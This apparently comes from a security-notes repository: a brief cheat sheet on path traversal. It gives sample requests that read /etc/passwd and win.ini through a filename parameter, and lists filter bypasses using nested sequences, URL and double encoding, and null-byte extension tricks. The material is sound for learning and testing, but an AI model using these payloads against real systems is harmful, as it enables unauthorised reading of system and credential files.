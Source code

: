 # Path Traversal

Path Traversal allow a user to read arbitrary files via a path manipulation.

### Table of Content

- [Reading arbitrary files via path traversal](#reading-arbitrary-files-via-path-traversal)
    - [Linux server](#linux-server)
    - [Window server](#windows-server)
- [Common obstacles to exploiting path traversal vulnerabilities](#common-obstacles-to-exploiting-path-traversal-vulnerabilities)

## Reading arbitrary files via path traversal

### Linux server:

`https://insecure-website.com/loadImage?filename=../../../etc/passwd`

### Windows server:

`https://insecure-website.com/loadImage?filename=..\..\..\windows\win.ini`

## Common obstacles to exploiting path traversal vulnerabilities

Many applications that place user input into file paths implement defenses against path traversal attacks. These can often be bypassed.

If an application strips or blocks directory traversal sequences from the user-supplied filename, it might be possible to bypass the defense using a variety of techniques.

- Absolute path from the filesystem root, such as `filename=/etc/passwd`, to directly reference a file without using any traversal sequences.
- nested traversal sequences, such as ....// or ....\/. These revert to simple traversal sequences when the inner sequence is stripped. Because application could erase every `../` existing so `....//` become -> `../`.
- encode it standart: `%2e%2e%2f` OR non-standart: `..%c0%af`
- double encode it standart: `%252e%252e%252f` OR non-standart: `..%ef%bc%8f`

if an application ask to end with `.png` you can bypass it with: `filename=../../../etc/passwd%00.png`

---

[**:arrow_right_hook: Back home**](/README.md)